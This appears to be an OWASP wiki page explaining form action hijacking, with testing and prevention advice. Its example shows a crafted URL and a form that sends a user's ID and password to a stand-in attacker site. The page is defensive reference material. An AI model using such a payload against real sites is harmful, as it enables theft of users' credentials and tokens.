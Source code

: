 ```yaml
---

layout: col-sidebar
title: Form action hijacking
author: 
contributors: 
permalink: /attacks/Form_action_hijacking
tags: attack, Form action hijacking
auto-migrated: 1

---
```


Last revision (mm/dd/yy): **//**

## Overview

Form action hijacking allows an attacker to specify the action URL of a
form via a paramter. An attacker can construct a URL that will modify
the action URL of a form to point to the attacker's server. Form content
including CSRF tokens, user entered parameter values, and any other of
the forms content will be delivered to the attacker via the hijacked
action URL.

## How to Test for Form Action Hijacking Vulnerabilities

Check parameter values passed to the form action. See example below.

## How to Prevent Form Action Hijacking Vulnerabilities

Hard-code the form action URL or use a whitelist of allowed URLs.

## Examples

The following URL will generate the a form and set the "url" parameter
as the from action URL. When the form is submitted, the ID and password
will be sent to the attacker's site.

URL:

    https://vulnerablehost.com/?url=https://attackersite.com

Source:

    <form name="form1" id="form1" method="post" action="https://attackersite.com">
        <input type="text" name="id" value="user name">
        <input type="password" name="pass" value="password">
        <input type="submit" name="submit" value="Submit">
    </form>

## References

  - [Common Weakness Enumeration - CWE-20: Improper Input
    Validation](https://cwe.mitre.org/data/definitions/20.html)
  - [PortSwigger: Form action hijacking
    (reflected)](https://portswigger.net/knowledgebase/issues/details/00501500_formactionhijackingreflected)
  - [PortSwigger: Form action hijacking
    (stored)](https://portswigger.net/knowledgebase/issues/details/00501501_formactionhijackingstored)

[Category:Input Validation
Vulnerability](Category:Input_Validation_Vulnerability "wikilink")
[Category:OWASP Top Ten
Project](Category:OWASP_Top_Ten_Project "wikilink") [Category:
Attack](Category:_Attack "wikilink")
